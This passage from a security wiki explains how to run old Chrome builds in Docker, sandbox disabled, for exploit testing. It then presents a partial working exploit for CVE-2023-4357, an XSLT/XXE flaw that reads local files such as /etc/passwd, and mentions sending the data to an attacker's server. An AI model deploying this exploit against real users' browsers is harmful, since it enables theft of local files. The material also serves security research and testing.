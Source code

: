To easily start any version locally for testing, use the following Docker setup to download a specific major version or a specific one if you find it:

<pre class="language-docker" data-title="Dockerfile"><code class="lang-docker">FROM debian:bullseye-slim

ENV DEBIAN_FRONTEND=noninteractive

RUN apt-get update &#x26;&#x26; \
    apt-get install -y wget curl jq unzip libnss3 libx11-6 libx11-xcb1 libxcomposite1 libxcursor1 libxdamage1 libxext6 libxi6 libxrandr2 libgbm1 libasound2 libgtk-3-0 &#x26;&#x26; \
    rm -rf /var/lib/apt/lists/*

<strong>ENV VERSION_CONSTRAINT='| startswith("127.")'
</strong># ENV VERSION_CONSTRAINT='=="127.0.6533.119"'

RUN wget -q $(curl -s https://googlechromelabs.github.io/chrome-for-testing/known-good-versions-with-downloads.json | \
    jq -r '[.versions[] | select(.version '"$VERSION_CONSTRAINT"')] | .[-1].downloads.chrome[] | select(.platform == "linux64") | .url') &#x26;&#x26; \
    unzip chrome-linux64.zip &#x26;&#x26; \
    mv chrome-linux64 /opt/chromium &#x26;&#x26; \
    ln -s /opt/chromium/chrome /usr/bin/chromium &#x26;&#x26; \
    rm chrome-linux64.zip

ENTRYPOINT ["chromium", "--no-sandbox", "--no-first-run"]
</code></pre>

From there, you can open up your exploit page to check if it would work against the real target.

### XXE (<= 115)

Researchers at Positive Security (or rather ChatGPT) discovered a logic issue where the XSLT parser could load arbitrary local files:

{% embed url="https://swarm.ptsecurity.com/xxe-chrome-safari-chatgpt/" %}
Writeup of the discovery of CVE-2023-4357
{% endembed %}

An easy test to check if the version is vulnerable by testing various files is provided at the bottom of their writeup. If your target gives you a screenshot or the content in any other way that's displayed in these iframes, you can already leak data visually.

To exploit it in a scenario where you have scripting but no visual response, you can use JavaScript to read the content raw and exfiltrate it to your server:

<pre class="language-html" data-title="xxe.html"><code class="lang-html">&#x3C;body>
  &#x3C;script>
<strong>    const FILENAME = "/etc/passwd";
</strong>
    const xxe = `&#x3C;?xml version="1.0" encoding="UTF-8"?>
&#x3C;!DOCTYPE xxe [ &#x3C;!ENTITY xxe SYSTEM "file://${FILENAME}"> ]>
&#x3C;xxe>
&#x26;xxe;
&#x3C;/xxe>`;
    const xls = `&#x3C;xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:user="http://mycompany.com/mynamespace">
&#x3C;xsl:output method="xml"/>
&#x3C;xsl:template match="/">
&#x3C;svg xmlns="http://www.w3.org/2000/svg">
&#x3C;foreignObject width="300" height="600">
&#x3C;div xmlns="http://www.w3.org/1999/xhtml">
&#x3C;xsl:copy-of  select="document('data:,${encodeURIComponent(xxe)}')"/>
&#x3C;/div>
&#x3C;/foreignObject>
&#x3C;/svg>
&#x3C;/xsl:template>
&#x3C;/xsl:stylesheet>`;
